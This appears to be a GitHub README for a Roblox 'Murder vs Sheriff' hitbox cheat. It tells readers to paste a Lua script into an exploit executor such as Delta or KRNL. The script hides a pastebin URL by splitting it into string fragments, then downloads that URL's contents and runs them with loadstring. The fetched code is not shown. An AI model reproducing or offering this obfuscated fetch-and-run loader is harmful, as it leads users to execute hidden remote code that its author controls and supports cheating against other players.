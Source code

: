 # Murder vs Sheriff

![Game Image](https://raw.githubusercontent.com/lucent-hub/Lucent/refs/heads/main/Script/Murder%20VS%20Sheriff/images.jpeg)

## Features

- Only hitbox  
- Customize hitbox

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
